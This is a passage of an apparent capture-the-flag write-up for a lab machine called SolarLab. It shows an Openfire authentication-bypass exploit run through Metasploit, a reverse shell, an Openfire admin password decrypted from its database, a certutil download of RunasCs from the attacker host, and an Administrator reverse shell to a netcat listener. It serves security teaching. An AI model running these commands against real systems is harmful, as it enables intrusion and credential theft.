

But here I missed again, apparently there is a way to get a RCE via metasploit LOL.

```
msf6 exploit(multi/http/openfire_auth_bypass_rce_cve_2023_32315) > show options 

Module options (exploit/multi/http/openfire_auth_bypass_rce_cve_2023_32315):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   ADMINNAME                      no        Openfire admin user name, (default: random)
   PLUGINAUTHOR                   no        Openfire plugin author, (default: random)
   PLUGINDESC                     no        Openfire plugin description, (default: random)
   PLUGINNAME                     no        Openfire plugin base name, (default: random)
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        240.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         9090             yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /                yes       The base path to the web application
   VHOST                          no        HTTP server virtual host


Payload options (java/shell/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.76      yes       The listen address (an interface may be specified)
   LPORT  7777             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal


View the full module info with the info, or info -d command.

msf6 exploit(multi/http/openfire_auth_bypass_rce_cve_2023_32315) > run

[*] Started reverse TCP handler on 10.10.14.76:7777 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Openfire version is 4.7.4
[*] Grabbing the cookies.
[*] JSESSIONID=node0lunh8f1staxg5g3vayt17mpm8.node0
[*] csrf=Wjv1pOnJIePkdj8
[*] Adding a new admin user.
[*] Logging in with admin user "lzvvsjgtejxf" and password "8Qp6rqMaa".
[*] Upload and execute plugin "wWYx1jpmsy1gP" with payload "java/shell/reverse_tcp".
[*] Sending stage (2952 bytes) to 10.10.11.16
[!] Plugin "wWYx1jpmsy1gP" need manually clean-up via Openfire Admin console.
[!] Admin user "lzvvsjgtejxf" need manually clean-up via Openfire Admin console.
[*] Command shell session 1 opened (10.10.14.76:7777 -> 10.10.11.16:51069) at 2024-05-16 18:21:34 +0200


Shell Banner:
Microsoft Windows [Version 10.0.19045.4355]
-----
          

C:\Program Files\Openfire\bin>whoami
whoami
solarlab\openfire

C:\Program Files\Openfire\bin>
```

Apparently the Openfire password can be found in the under /embedded-db

```
C:\Program Files\Openfire\embedded-db>cat openfire.script
cat openfire.script
'cat' is not recognized as an internal or external command,
operable program or batch file.

C:\Program Files\Openfire\embedded-db>dir  
dir
 Volume in drive C has no label.
 Volume Serial Number is 385E-AC57

 Directory of C:\Program Files\Openfire\embedded-db

05/16/2024  06:06 PM    <DIR>          .
05/16/2024  06:06 PM    <DIR>          ..
05/16/2024  06:06 PM                 0 openfire.lck
05/16/2024  07:21 PM             3,693 openfire.log
05/16/2024  06:06 PM               106 openfire.properties
05/07/2024  09:15 PM            16,161 openfire.script
05/16/2024  06:06 PM    <DIR>          openfire.tmp
               4 File(s)         19,960 bytes
               3 Dir(s)   6,987,984,896 bytes free

C:\Program Files\Openfire\embedded-db>type openfire.script
type openfire.script
SET DATABASE UNIQUE NAME HSQLDB8BDD3B2742
SET DATABASE GC 0
SET DATABASE DEFAULT RESULT MEMORY ROWS 0
SET DATABASE EVENT LOG LEVEL 0
SET DATABASE TRANSACTION CONTROL LOCKS
SET DATABASE DEFAULT ISOLATION LEVEL READ COMMITTED
SET DATABASE TRANSACTION ROLLBACK ON CONFLICT TRUE
SET DATABASE TEXT TABLE DEFAULTS ''
SET DATABASE SQL NAMES FALSE
SET DATABASE SQL REFERENCES FALSE
SET DATABASE SQL SIZE TRUE
SET DATABASE SQL TYPES FALSE
SET DATABASE SQL TDC DELETE TRUE
SET DATABASE SQL TDC UPDATE TRUE
SET DATABASE SQL CONCAT NULLS TRUE
SET DATABASE SQL UNIQUE NULLS TRUE
SET DATABASE SQL CONVERT TRUNCATE TRUE
SET DATABASE SQL AVG SCALE 0
SET DATABASE SQL DOUBLE NAN TRUE
SET FILES WRITE DELAY 1
SET FILES BACKUP INCREMENT TRUE
SET FILES CACHE SIZE 10000
SET FILES CACHE ROWS 50000
SET FILES SCALE 32
SET FILES LOB SCALE 32
SET FILES DEFRAG 0
SET FILES NIO TRUE
SET FILES NIO SIZE 256
SET FILES LOG TRUE
SET FILES LOG SIZE 20
CREATE USER SA PASSWORD DIGEST 'd41d8cd98f00b204e9800998ecf8427e'
ALTER USER SA SET LOCAL TRUE
CREATE SCHEMA PUBLIC AUTHORIZATION DBA
SET SCHEMA PUBLIC
CREATE MEMORY TABLE PUBLIC.OFUSER(USERNAME VARCHAR(64) NOT NULL,STOREDKEY VARCHAR(32),SERVERKEY VARCHAR(32),SALT VARCHAR(32),ITERATIONS INTEGER,PLAINPASSWORD VARCHAR(32),ENCRYPTEDPASSWORD VARCHAR(255),NAME VARCHAR(100),EMAIL VARCHAR(100),CREATIONDATE VARCHAR(15) NOT NULL,MODIFICATIONDATE VARCHAR(15) NOT NULL,CONSTRAINT OFUSER_PK PRIMARY KEY(USERNAME))
CREATE INDEX OFUSER_CDATE_IDX ON PUBLIC.OFUSER(CREATIONDATE)
CREATE MEMORY TABLE PUBLIC.OFUSERPROP(USERNAME VARCHAR(64) NOT NULL,NAME VARCHAR(100) NOT NULL,PROPVALUE VARCHAR(4000) NOT NULL,CONSTRAINT OFUSERPROP_PK PRIMARY KEY(USERNAME,NAME))
CREATE MEMORY TABLE PUBLIC.OFUSERFLAG(USERNAME VARCHAR(64) NOT NULL,NAME VARCHAR(100) NOT NULL,STARTTIME VARCHAR(15),ENDTIME VARCHAR(15),CONSTRAINT OFUSERFLAG_PK PRIMARY KEY(USERNAME,NAME))
CREATE INDEX OFUSERFLAG_STIME_IDX ON PUBLIC.OFUSERFLAG(STARTTIME)
CREATE INDEX OFUSERFLAG_ETIME_IDX ON PUBLIC.OFUSERFLAG(ENDTIME)
CREATE MEMORY TABLE PUBLIC.OFOFFLINE(USERNAME VARCHAR(64) NOT NULL,MESSAGEID BIGINT NOT NULL,CREATIONDATE VARCHAR(15) NOT NULL,MESSAGESIZE INTEGER NOT NULL,STANZA VARCHAR(16777216) NOT NULL,CONSTRAINT OFOFFLINE_PK PRIMARY KEY(USERNAME,MESSAGEID))
CREATE MEMORY TABLE PUBLIC.OFPRESENCE(USERNAME VARCHAR(64) NOT NULL,OFFLINEPRESENCE VARCHAR(16777216),OFFLINEDATE VARCHAR(15) NOT NULL,CONSTRAINT OFPRESENCE_PK PRIMARY KEY(USERNAME))
CREATE MEMORY TABLE PUBLIC.OFROSTER(ROSTERID BIGINT NOT NULL,USERNAME VARCHAR(64) NOT NULL,JID VARCHAR(1024) NOT NULL,SUB INTEGER NOT NULL,ASK INTEGER NOT NULL,RECV INTEGER NOT NULL,NICK VARCHAR(255),STANZA VARCHAR(16777216),CONSTRAINT OFROSTER_PK PRIMARY KEY(ROSTERID))
CREATE INDEX OFROSTER_USERNAME_IDX ON PUBLIC.OFROSTER(USERNAME)
CREATE INDEX OFROSTER_JID_IDX ON PUBLIC.OFROSTER(JID)
CREATE MEMORY TABLE PUBLIC.OFROSTERGROUPS(ROSTERID BIGINT NOT NULL,RANK INTEGER NOT NULL,GROUPNAME VARCHAR(255) NOT NULL,CONSTRAINT OFROSTERGROUPS_PK PRIMARY KEY(ROSTERID,RANK))
CREATE INDEX OFROSTERGROUP_ROSTERID_IDX ON PUBLIC.OFROSTERGROUPS(ROSTERID)
CREATE MEMORY TABLE PUBLIC.OFVCARD(USERNAME VARCHAR(64) NOT NULL,VCARD VARCHAR(16777216) NOT NULL,CONSTRAINT OFVCARD_PK PRIMARY KEY(USERNAME))
CREATE MEMORY TABLE PUBLIC.OFGROUP(GROUPNAME VARCHAR(50) NOT NULL,DESCRIPTION VARCHAR(255),CONSTRAINT OFGROUP_PK PRIMARY KEY(GROUPNAME))
CREATE MEMORY TABLE PUBLIC.OFGROUPPROP(GROUPNAME VARCHAR(50) NOT NULL,NAME VARCHAR(100) NOT NULL,PROPVALUE VARCHAR(4000) NOT NULL,CONSTRAINT OFGROUPPROP_PK PRIMARY KEY(GROUPNAME,NAME))
CREATE MEMORY TABLE PUBLIC.OFGROUPUSER(GROUPNAME VARCHAR(50) NOT NULL,USERNAME VARCHAR(100) NOT NULL,ADMINISTRATOR INTEGER NOT NULL,CONSTRAINT OFGROUPUSER_PK PRIMARY KEY(GROUPNAME,USERNAME,ADMINISTRATOR))
CREATE MEMORY TABLE PUBLIC.OFID(IDTYPE INTEGER NOT NULL,ID BIGINT NOT NULL,CONSTRAINT OFID_PK PRIMARY KEY(IDTYPE))
CREATE MEMORY TABLE PUBLIC.OFPROPERTY(NAME VARCHAR(100) NOT NULL,PROPVALUE VARCHAR(4000) NOT NULL,ENCRYPTED INTEGER,IV CHARACTER(24),CONSTRAINT OFPROPERTY_PK PRIMARY KEY(NAME))
CREATE MEMORY TABLE PUBLIC.OFVERSION(NAME VARCHAR(50) NOT NULL,VERSION INTEGER NOT NULL,CONSTRAINT OFVERSION_PK PRIMARY KEY(NAME))
CREATE MEMORY TABLE PUBLIC.OFEXTCOMPONENTCONF(SUBDOMAIN VARCHAR(255) NOT NULL,WILDCARD INTEGER NOT NULL,SECRET VARCHAR(255),PERMISSION VARCHAR(10) NOT NULL,CONSTRAINT OFEXTCOMPONENTCONF_PK PRIMARY KEY(SUBDOMAIN))
CREATE MEMORY TABLE PUBLIC.OFREMOTESERVERCONF(XMPPDOMAIN VARCHAR(255) NOT NULL,REMOTEPORT INTEGER,PERMISSION VARCHAR(10) NOT NULL,CONSTRAINT OFREMOTESERVERCONF_PK PRIMARY KEY(XMPPDOMAIN))
CREATE MEMORY TABLE PUBLIC.OFPRIVACYLIST(USERNAME VARCHAR(64) NOT NULL,NAME VARCHAR(100) NOT NULL,ISDEFAULT INTEGER NOT NULL,LIST VARCHAR(16777216) NOT NULL,CONSTRAINT OFPRIVACYLIST_PK PRIMARY KEY(USERNAME,NAME))
CREATE INDEX OFPRIVACYLIST_DEFAULT_IDX ON PUBLIC.OFPRIVACYLIST(USERNAME,ISDEFAULT)
CREATE MEMORY TABLE PUBLIC.OFSASLAUTHORIZED(USERNAME VARCHAR(64) NOT NULL,PRINCIPAL VARCHAR(4000) NOT NULL,CONSTRAINT OFSASLAUTHORIZED_PK PRIMARY KEY(USERNAME,PRINCIPAL))
CREATE MEMORY TABLE PUBLIC.OFSECURITYAUDITLOG(MSGID BIGINT NOT NULL,USERNAME VARCHAR(64) NOT NULL,ENTRYSTAMP BIGINT NOT NULL,SUMMARY VARCHAR(255) NOT NULL,NODE VARCHAR(255) NOT NULL,DETAILS VARCHAR(16777216),CONSTRAINT OFSECURITYAUDITLOG_PK PRIMARY KEY(MSGID))
CREATE INDEX OFSECURITYAUDITLOG_TSTAMP_IDX ON PUBLIC.OFSECURITYAUDITLOG(ENTRYSTAMP)
CREATE INDEX OFSECURITYAUDITLOG_UNAME_IDX ON PUBLIC.OFSECURITYAUDITLOG(USERNAME)
CREATE MEMORY TABLE PUBLIC.OFMUCSERVICE(SERVICEID BIGINT NOT NULL,SUBDOMAIN VARCHAR(255) NOT NULL,DESCRIPTION VARCHAR(255),ISHIDDEN INTEGER NOT NULL,CONSTRAINT OFMUCSERVICE_PK PRIMARY KEY(SUBDOMAIN))
CREATE INDEX OFMUCSERVICE_SERVICEID_IDX ON PUBLIC.OFMUCSERVICE(SERVICEID)
CREATE MEMORY TABLE PUBLIC.OFMUCSERVICEPROP(SERVICEID BIGINT NOT NULL,NAME VARCHAR(100) NOT NULL,PROPVALUE VARCHAR(4000) NOT NULL,CONSTRAINT OFMUCSERVICEPROP_PK PRIMARY KEY(SERVICEID,NAME))
CREATE MEMORY TABLE PUBLIC.OFMUCROOM(SERVICEID BIGINT NOT NULL,ROOMID BIGINT NOT NULL,CREATIONDATE CHARACTER(15) NOT NULL,MODIFICATIONDATE CHARACTER(15) NOT NULL,NAME VARCHAR(50) NOT NULL,NATURALNAME VARCHAR(255) NOT NULL,DESCRIPTION VARCHAR(255),LOCKEDDATE CHARACTER(15) NOT NULL,EMPTYDATE CHARACTER(15),CANCHANGESUBJECT INTEGER NOT NULL,MAXUSERS INTEGER NOT NULL,PUBLICROOM INTEGER NOT NULL,MODERATED INTEGER NOT NULL,MEMBERSONLY INTEGER NOT NULL,CANINVITE INTEGER NOT NULL,ROOMPASSWORD VARCHAR(50),CANDISCOVERJID INTEGER NOT NULL,LOGENABLED INTEGER NOT NULL,SUBJECT VARCHAR(100),ROLESTOBROADCAST INTEGER NOT NULL,USERESERVEDNICK INTEGER NOT NULL,CANCHANGENICK INTEGER NOT NULL,CANREGISTER INTEGER NOT NULL,ALLOWPM INTEGER,FMUCENABLED INTEGER,FMUCOUTBOUNDNODE VARCHAR(255),FMUCOUTBOUNDMODE INTEGER,FMUCINBOUNDNODES VARCHAR(4000),CONSTRAINT OFMUCROOM_PK PRIMARY KEY(SERVICEID,NAME))
CREATE INDEX OFMUCROOM_ROOMID_IDX ON PUBLIC.OFMUCROOM(ROOMID)
CREATE INDEX OFMUCROOM_SERVICEID_IDX ON PUBLIC.OFMUCROOM(SERVICEID)
CREATE MEMORY TABLE PUBLIC.OFMUCROOMPROP(ROOMID BIGINT NOT NULL,NAME VARCHAR(100) NOT NULL,PROPVALUE VARCHAR(4000) NOT NULL,CONSTRAINT OFMUCROOMPROP_PK PRIMARY KEY(ROOMID,NAME))
CREATE MEMORY TABLE PUBLIC.OFMUCAFFILIATION(ROOMID BIGINT NOT NULL,JID VARCHAR(1024) NOT NULL,AFFILIATION INTEGER NOT NULL,CONSTRAINT OFMUCAFFILIATION_PK PRIMARY KEY(ROOMID,JID))
CREATE MEMORY TABLE PUBLIC.OFMUCMEMBER(ROOMID BIGINT NOT NULL,JID VARCHAR(1024) NOT NULL,NICKNAME VARCHAR(255),FIRSTNAME VARCHAR(100),LASTNAME VARCHAR(100),URL VARCHAR(100),EMAIL VARCHAR(100),FAQENTRY VARCHAR(100),CONSTRAINT OFMUCMEMBER_PK PRIMARY KEY(ROOMID,JID))
CREATE MEMORY TABLE PUBLIC.OFMUCCONVERSATIONLOG(ROOMID BIGINT NOT NULL,MESSAGEID BIGINT NOT NULL,SENDER VARCHAR(1024) NOT NULL,NICKNAME VARCHAR(255),LOGTIME CHARACTER(15) NOT NULL,SUBJECT VARCHAR(255),BODY VARCHAR(16777216),STANZA VARCHAR(16777216))
CREATE INDEX OFMUCCONVERSATIONLOG_ROOMTIME_IDX ON PUBLIC.OFMUCCONVERSATIONLOG(ROOMID,LOGTIME)
CREATE INDEX OFMUCCONVERSATIONLOG_TIME_IDX ON PUBLIC.OFMUCCONVERSATIONLOG(LOGTIME)
CREATE INDEX OFMUCCONVERSATIONLOG_MSG_ID ON PUBLIC.OFMUCCONVERSATIONLOG(MESSAGEID)
CREATE MEMORY TABLE PUBLIC.OFPUBSUBNODE(SERVICEID VARCHAR(100) NOT NULL,NODEID VARCHAR(100) NOT NULL,LEAF INTEGER NOT NULL,CREATIONDATE CHARACTER(15) NOT NULL,MODIFICATIONDATE CHARACTER(15) NOT NULL,PARENT VARCHAR(100),DELIVERPAYLOADS INTEGER NOT NULL,MAXPAYLOADSIZE INTEGER,PERSISTITEMS INTEGER,MAXITEMS INTEGER,NOTIFYCONFIGCHANGES INTEGER NOT NULL,NOTIFYDELETE INTEGER NOT NULL,NOTIFYRETRACT INTEGER NOT NULL,PRESENCEBASED INTEGER NOT NULL,SENDITEMSUBSCRIBE INTEGER NOT NULL,PUBLISHERMODEL VARCHAR(15) NOT NULL,SUBSCRIPTIONENABLED INTEGER NOT NULL,CONFIGSUBSCRIPTION INTEGER NOT NULL,ACCESSMODEL VARCHAR(10) NOT NULL,PAYLOADTYPE VARCHAR(100),BODYXSLT VARCHAR(100),DATAFORMXSLT VARCHAR(100),CREATOR VARCHAR(1024) NOT NULL,DESCRIPTION VARCHAR(255),LANGUAGE VARCHAR(255),NAME VARCHAR(50),REPLYPOLICY VARCHAR(15),ASSOCIATIONPOLICY VARCHAR(15),MAXLEAFNODES INTEGER,CONSTRAINT OFPUBSUBNODE_PK PRIMARY KEY(SERVICEID,NODEID))
CREATE MEMORY TABLE PUBLIC.OFPUBSUBNODEJIDS(SERVICEID VARCHAR(100) NOT NULL,NODEID VARCHAR(100) NOT NULL,JID VARCHAR(1024) NOT NULL,ASSOCIATIONTYPE VARCHAR(20) NOT NULL,CONSTRAINT OFPUBSUBNODEJIDS_PK PRIMARY KEY(SERVICEID,NODEID,JID))
CREATE MEMORY TABLE PUBLIC.OFPUBSUBNODEGROUPS(SERVICEID VARCHAR(100) NOT NULL,NODEID VARCHAR(100) NOT NULL,ROSTERGROUP VARCHAR(100) NOT NULL)
CREATE INDEX OFPUBSUBNODEGROUPS_IDX ON PUBLIC.OFPUBSUBNODEGROUPS(SERVICEID,NODEID)
CREATE MEMORY TABLE PUBLIC.OFPUBSUBAFFILIATION(SERVICEID VARCHAR(100) NOT NULL,NODEID VARCHAR(100) NOT NULL,JID VARCHAR(1024) NOT NULL,AFFILIATION VARCHAR(10) NOT NULL,CONSTRAINT OFPUBSUBAFFILIATION_PK PRIMARY KEY(SERVICEID,NODEID,JID))
CREATE MEMORY TABLE PUBLIC.OFPUBSUBITEM(SERVICEID VARCHAR(100) NOT NULL,NODEID VARCHAR(100) NOT NULL,ID VARCHAR(100) NOT NULL,JID VARCHAR(1024) NOT NULL,CREATIONDATE CHARACTER(15) NOT NULL,PAYLOAD CLOB(1G),CONSTRAINT OFPUBSUBITEM_PK PRIMARY KEY(SERVICEID,NODEID,ID))
CREATE MEMORY TABLE PUBLIC.OFPUBSUBSUBSCRIPTION(SERVICEID VARCHAR(100) NOT NULL,NODEID VARCHAR(100) NOT NULL,ID VARCHAR(100) NOT NULL,JID VARCHAR(1024) NOT NULL,OWNER VARCHAR(1024) NOT NULL,STATE VARCHAR(15) NOT NULL,DELIVER INTEGER NOT NULL,DIGEST INTEGER NOT NULL,DIGEST_FREQUENCY INTEGER NOT NULL,EXPIRE CHARACTER(15),INCLUDEBODY INTEGER NOT NULL,SHOWVALUES VARCHAR(30) NOT NULL,SUBSCRIPTIONTYPE VARCHAR(10) NOT NULL,SUBSCRIPTIONDEPTH INTEGER NOT NULL,KEYWORD VARCHAR(200),CONSTRAINT OFPUBSUBSUBSCRIPTION_PK PRIMARY KEY(SERVICEID,NODEID,ID))
CREATE MEMORY TABLE PUBLIC.OFPUBSUBDEFAULTCONF(SERVICEID VARCHAR(100) NOT NULL,LEAF INTEGER NOT NULL,DELIVERPAYLOADS INTEGER NOT NULL,MAXPAYLOADSIZE INTEGER NOT NULL,PERSISTITEMS INTEGER NOT NULL,MAXITEMS INTEGER NOT NULL,NOTIFYCONFIGCHANGES INTEGER NOT NULL,NOTIFYDELETE INTEGER NOT NULL,NOTIFYRETRACT INTEGER NOT NULL,PRESENCEBASED INTEGER NOT NULL,SENDITEMSUBSCRIBE INTEGER NOT NULL,PUBLISHERMODEL VARCHAR(15) NOT NULL,SUBSCRIPTIONENABLED INTEGER NOT NULL,ACCESSMODEL VARCHAR(10) NOT NULL,LANGUAGE VARCHAR(255),REPLYPOLICY VARCHAR(15),ASSOCIATIONPOLICY VARCHAR(15) NOT NULL,MAXLEAFNODES INTEGER NOT NULL,CONSTRAINT OFPUBSUBDEFAULTCONF_PK PRIMARY KEY(SERVICEID,LEAF))
ALTER SEQUENCE SYSTEM_LOBS.LOB_ID RESTART WITH 1
SET DATABASE DEFAULT INITIAL SCHEMA PUBLIC
GRANT USAGE ON DOMAIN INFORMATION_SCHEMA.SQL_IDENTIFIER TO PUBLIC
GRANT USAGE ON DOMAIN INFORMATION_SCHEMA.YES_OR_NO TO PUBLIC
GRANT USAGE ON DOMAIN INFORMATION_SCHEMA.TIME_STAMP TO PUBLIC
GRANT USAGE ON DOMAIN INFORMATION_SCHEMA.CARDINAL_NUMBER TO PUBLIC
GRANT USAGE ON DOMAIN INFORMATION_SCHEMA.CHARACTER_DATA TO PUBLIC
GRANT DBA TO SA
SET SCHEMA SYSTEM_LOBS
INSERT INTO BLOCKS VALUES(0,2147483647,0)
SET SCHEMA PUBLIC
INSERT INTO OFUSER VALUES('admin','gjMoswpK+HakPdvLIvp6eLKlYh0=','9MwNQcJ9bF4YeyZDdns5gvXp620=','yidQk5Skw11QJWTBAloAb28lYHftqa0x',4096,NULL,'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442','Administrator','admin@solarlab.htb','001700223740785','0')
INSERT INTO OFUSERPROP VALUES('admin','console.rows_per_page','/session-summary.jsp=25')
INSERT INTO OFOFFLINE VALUES('admin',1,'001700223778861',127,'<message from="solarlab.htb" to="admin@solarlab.htb"><body>A server or plugin update was found: Openfire 4.7.5</body></message>')
INSERT INTO OFOFFLINE VALUES('admin',2,'001700223779069',125,'<message from="solarlab.htb" to="admin@solarlab.htb"><body>A server or plugin update was found: Search 1.7.4</body></message>')
INSERT INTO OFOFFLINE VALUES('admin',6,'001714131992714',127,'<message from="solarlab.htb" to="admin@solarlab.htb"><body>A server or plugin update was found: Openfire 4.8.1</body></message>')
INSERT INTO OFOFFLINE VALUES('admin',7,'001714131993136',125,'<message from="solarlab.htb" to="admin@solarlab.htb"><body>A server or plugin update was found: Search 1.7.4</body></message>')
INSERT INTO OFOFFLINE VALUES('admin',11,'001715023572659',127,'<message from="solarlab.htb" to="admin@solarlab.htb"><body>A server or plugin update was found: Openfire 4.8.1</body></message>')
INSERT INTO OFOFFLINE VALUES('admin',12,'001715023572956',125,'<message from="solarlab.htb" to="admin@solarlab.htb"><body>A server or plugin update was found: Search 1.7.4</body></message>')
INSERT INTO OFID VALUES(18,1)
INSERT INTO OFID VALUES(19,16)
INSERT INTO OFID VALUES(23,1)
INSERT INTO OFID VALUES(25,3)
INSERT INTO OFID VALUES(26,2)
INSERT INTO OFID VALUES(27,1)
INSERT INTO OFPROPERTY VALUES('cache.MUCService''conference''RoomStatistics.maxLifetime','-1',0,NULL)
INSERT INTO OFPROPERTY VALUES('cache.MUCService''conference''RoomStatistics.size','-1',0,NULL)
INSERT INTO OFPROPERTY VALUES('cache.MUCService''conference''Rooms.maxLifetime','-1',0,NULL)
INSERT INTO OFPROPERTY VALUES('cache.MUCService''conference''Rooms.size','-1',0,NULL)
INSERT INTO OFPROPERTY VALUES('passwordKey','hGXiFzsKaAeYLjn',0,NULL)
INSERT INTO OFPROPERTY VALUES('provider.admin.className','org.jivesoftware.openfire.admin.DefaultAdminProvider',0,NULL)
INSERT INTO OFPROPERTY VALUES('provider.auth.className','org.jivesoftware.openfire.auth.DefaultAuthProvider',0,NULL)
INSERT INTO OFPROPERTY VALUES('provider.group.className','org.jivesoftware.openfire.group.DefaultGroupProvider',0,NULL)
INSERT INTO OFPROPERTY VALUES('provider.lockout.className','org.jivesoftware.openfire.lockout.DefaultLockOutProvider',0,NULL)
INSERT INTO OFPROPERTY VALUES('provider.securityAudit.className','org.jivesoftware.openfire.security.DefaultSecurityAuditProvider',0,NULL)
INSERT INTO OFPROPERTY VALUES('provider.user.className','org.jivesoftware.openfire.user.DefaultUserProvider',0,NULL)
INSERT INTO OFPROPERTY VALUES('provider.vcard.className','org.jivesoftware.openfire.vcard.DefaultVCardProvider',0,NULL)
INSERT INTO OFPROPERTY VALUES('update.lastCheck','1715023572956',0,NULL)
INSERT INTO OFPROPERTY VALUES('xmpp.auth.anonymous','false',0,NULL)
INSERT INTO OFPROPERTY VALUES('xmpp.domain','solarlab.htb',0,NULL)
INSERT INTO OFPROPERTY VALUES('xmpp.proxy.enabled','false',0,NULL)
INSERT INTO OFPROPERTY VALUES('xmpp.socket.ssl.active','true',0,NULL)
INSERT INTO OFVERSION VALUES('openfire',34)
INSERT INTO OFSECURITYAUDITLOG VALUES(1,'admin',1700223751042,'Successful admin console login attempt','solarlab.htb','The user logged in successfully to the admin console from address 127.0.0.1. ')
INSERT INTO OFSECURITYAUDITLOG VALUES(2,'admin',1700223756534,'edited file transfer proxy settings','solarlab.htb','port = 7777\u000ahardcodedAddress = null\u000aenabled = false')
INSERT INTO OFMUCSERVICE VALUES(1,'conference',NULL,0)
INSERT INTO OFPUBSUBNODE VALUES('pubsub','',0,'001700223743445','001700223743445',NULL,0,0,0,0,1,1,1,0,0,'publishers',1,0,'open','','','','solarlab.htb','','English','',NULL,'all',-1)
INSERT INTO OFPUBSUBAFFILIATION VALUES('pubsub','','solarlab.htb','owner')
INSERT INTO OFPUBSUBDEFAULTCONF VALUES('pubsub',0,0,0,0,0,1,1,1,0,0,'publishers',1,'open','English',NULL,'all',-1)
INSERT INTO OFPUBSUBDEFAULTCONF VALUES('pubsub',1,1,10485760,0,1,1,1,1,0,1,'publishers',1,'open','English',NULL,'all',-1)

C:\Program Files\Openfire\embedded-db>
```

I see the admin password hash so let's use this one to decrypt it:

https://github.com/c0rdis/openfire_decrypt



OBS: I did the mistake to update the Administrator's password but the solution is this anyway:



What is needed here is the password hash + password key

```
┌──(millycash㉿kali-bello)-[~/Downloads/Tools/openfire_decrypt]
└─$ java OpenFireDecryptPass.java "becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442" "hGXiFzsKaAeYLjn"             
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
ThisPasswordShouldDo!@ (hex: 005400680069007300500061007300730077006F0072006400530068006F0075006C00640044006F00210040)
```

Now this password can be reused to gain access as administrator. To do we need to use runascs to get a shell as Administrator!

First we invoke the command to stdout back to our machine:

```
C:\Temp>certutil.exe -urlcache -f http://10.10.14.76:9000/RunasCs.exe RunasCs.exe
certutil.exe -urlcache -f http://10.10.14.76:9000/RunasCs.exe RunasCs.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\Temp>ls
ls
'ls' is not recognized as an internal or external command,
operable program or batch file.

C:\Temp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 385E-AC57

 Directory of C:\Temp

05/16/2024  07:38 PM    <DIR>          .
05/16/2024  07:38 PM    <DIR>          ..
05/16/2024  06:45 PM         4,863,488 agent.exe
05/16/2024  07:38 PM            51,712 RunasCs.exe
               2 File(s)      4,915,200 bytes
               2 Dir(s)   6,987,862,016 bytes free

C:\Temp>RunasCs.exe "Administrator" "ThisPasswordShouldDo!@" cmd.exe -r 10.10.14.76:9999
RunasCs.exe "Administrator" "ThisPasswordShouldDo!@" cmd.exe -r 10.10.14.76:9999

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-27724$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 2796 created in background.

C:\Temp>
```

And lastly we gain access to the last flag as Administrator:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/SolarLab]
└─# nc -lvnp 9999           
listening on [any] 9999 ...
connect to [10.10.14.76] from (UNKNOWN) [10.10.11.16] 51184
Microsoft Windows [Version 10.0.19045.4355]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
solarlab\administrator

C:\Windows\system32>cd ..
cd ..

C:\Windows>cd ..
cd ..

C:\>cd Users
cd Users

C:\Users>cd Administrator
cd Administrator

C:\Users\Administrator>cd Desktop 
cd Desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
fb31730433591b49a6db5c755de0ca52

C:\Users\Administrator\Desktop>
```

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;